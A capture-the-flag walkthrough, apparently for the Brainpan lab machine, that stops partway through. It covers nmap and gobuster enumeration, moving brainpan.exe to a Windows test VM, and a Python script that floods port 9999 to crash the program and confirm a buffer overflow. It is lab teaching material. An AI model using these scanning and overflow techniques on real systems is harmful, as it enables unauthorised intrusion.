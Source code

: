 
# Walkthrough

## Basic Enumeration

Before starting the machine, we connect to the OpenVPN network using openvpn:
```
sudo openvpn ./vpn-file
```

After starting the machine, we get the IP address of our target. 
For convenience i create an environment variable that contains the IP:

```
export ip=10.10.10.10
```

Now we perform a portscan using nmap
```
nmap -p- $ip -T4 -O -osscan-guess
```
<br>

We use option:<br>
**-p-** to scan for all ports,<br>
**-T4** for selecting a fast portscan (T<0-5>)<br>
**-O** to fingerprint the operating system<br>
**-osscan-guess** to guess the operating system when the OS fingerprint (-O) is inaccurate<br>


![grafik](https://github.com/fortyfourh/CTF-writeups/assets/125758265/00872e20-ea3e-418f-b303-02ad7c527e94)

![grafik](https://github.com/fortyfourh/CTF-writeups/assets/125758265/9d24dd32-b1f3-4a14-b2c0-fb1d470649cb)

According to the output of nmap, there is a webserver running on port 10000. Now, we will scan the webserver and search for hidden files/folders using gobuster:
```
gobuster dir -u http://$ip:10000/ -w /usr/share/wordlists/ -x ".exe"
```
**-u** to specify the url<br>
**-w** to specify a wordlist<br>
**-x** to specify a file extension that should be added to each entry to the list additionally<br>

![grafik](https://github.com/fortyfourh/CTF-writeups/assets/125758265/5e2a90d5-0dc7-4372-aabf-8c5eac041671)

By running the previous command, we find a hidden directory that is accessible on the webserver. We do manual enumeration and find a file called brainpan.exe, which seems to be the program running on the victim machine on port 9999, which must be vulnerable to a buffer overflow as stated in the description of the machine (we will verify it in the following). 

![grafik](https://github.com/fortyfourh/CTF-writeups/assets/125758265/1ef441b5-6780-4677-888b-ef6bf63918e6)

We download the file found using wget.

```
wget http://$ip:10000/brainpan.exe
```
<br>

We will transfer the file over to one of our Windows VMs to test if the executable is vulnerable to a buffer overflow and craft our payload. The windows VM will act as our victim. We use python to create a webserver that hosts the file.

```
python3 -m http.server 80
```
<br>

**-m** to specify the http.server module<br>
**80** to specify the port<br>
<br>

On our own Windows VM we will download the file using PowerShell:
```
iwr -uri http://our-attacker-vm-ip(other interface)/brainpan.exe -outfile brainpan.exe
```

**iwr** is an alias for Invoke-WebRequest<br>
**-uri** to specify the url<br>
**-outfile** to specify the relative destination path<br>

<br>
We will use Immunity Debugger to debug the executable. 
<br>

It can be downloaded [here](https://www.immunityinc.com/products/debugger/).

## Verifying the buffer overflow vulnerability

Right click on Immunity Debugger and hit "Run as administrator". Once opened, goto File -> Open and select the executable, then once loaded click on the red arrow to the right to unpause.

![grafik](https://github.com/fortyfourh/CTF-writeups/assets/125758265/db4cc07e-008f-4aa4-9afa-cf022b05c456)
<br>
As we can see in the bottom-right-hand corner, the program is now running:

![grafik](https://github.com/fortyfourh/CTF-writeups/assets/125758265/13b5e01d-5ec3-46e6-813c-e31afa8500f1)

We now craft our script in python that will send our payload:

```
#!/usr/bin/env python3

import sys,socket

garbage = b'A'*99999

try:
  socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  socket.connect(("our-windows-vm-victim", 9999))
  socket.send(garbage)
except:
  print("Couldn't connct to our windows vm")
```

We execute the python script using python3
```
python3 script.py
```

We don't get any output, which means it ran without any errors. On the windows VM, we see that the program crashed because a segmentation fault occurred.

![grafik](https://github.com/fortyfourh/CTF-writeups/assets/125758265/ea43186d-4c3c-4909-beb8-c388c117d5b0)


## Crafting our payload to get a shell on the target

Restart Immunity Debugger and start the program (unpause it).

### Get the amount of bytes till EIP will be overwritten.



